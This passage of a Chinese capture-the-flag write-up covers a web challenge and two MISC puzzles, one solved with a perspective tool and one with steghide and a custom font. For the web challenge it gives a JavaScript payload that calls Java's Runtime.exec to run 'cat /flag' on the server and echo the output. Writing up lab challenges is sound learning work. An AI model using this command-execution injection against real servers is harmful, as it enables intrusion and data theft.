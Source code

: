 修改了一下发现应该是如果有`String`类的时候会被读取且只显示最后一个 *可能是利用反射，还是不清楚实现方式*

```javascript
//然后自己弄出了另一种回显，类似于查询之后的显示

var BufferedReader = java.io.BufferedReader;
var InputStreamReader = java.io.InputStreamReader;
var process = java.lang.Runtime.getRuntime().exec('cat /flag');
var inputStream = process.getInputStream();
var reader = new BufferedReader(new InputStreamReader(inputStream));
var line;
var result = new java.lang.StringBuilder();

while ((line = reader.readLine()) != null) {
        result.append(line);
    }

//这里有一个可有可无的toString()转换

//只显示flag内容

//但是如果在后面有其他字符串就被顶成新的字符串了
new java.lang.String("kira");
//只显示"kira"
```

所以猜测可能是和OQL查询class时的联动，由此也可以解释为什么上面直接用`java.lang.Runtime.getRuntime().exec('cat /flag')`会显示`Process`对象的默认字符串表示形式

~~蒽，卡这么久是因为我Java和JavaScript都不懂，在学了在学了www~~





### MISC

#### Signin

~~谁家小孩把这题当签到题的555~~

收到文件发现是个形变过后的图片，找了个[在线图片编辑器](https://photokit.com/editor/?lang=zh)，里面`变形`的`PERSPECTIVE`功能拉一拉就能看出来了



#### 来自星尘的问候

提到六位弱加密，用`steghide extract -sf secret.jpg`跑了一下，出来了`secret.zip`，里面是星尘文（？）图片和一个文字预览脚本

额`123456`是猜的......但是貌似也可以配合`steghide`爆破，去学学

搜索了一下，拿到了`.ttf`文件，安装文字之后在word文档里对出来的......从官网F12可以拿到`.wolf2`的字体文件，但是直接用转好的`.ttf`更方便 ~~果然还得是厨力~~

![stardust](https://oss.kiracoon.top/pic/202404140155915.png)

~~试了一下，要上传`.ttf`，我觉得这个脚本是出题的时候生成图片以后觉得可能做题也用的上然后一起打进来的~~  不过确实比敲word+扳手指好多了......


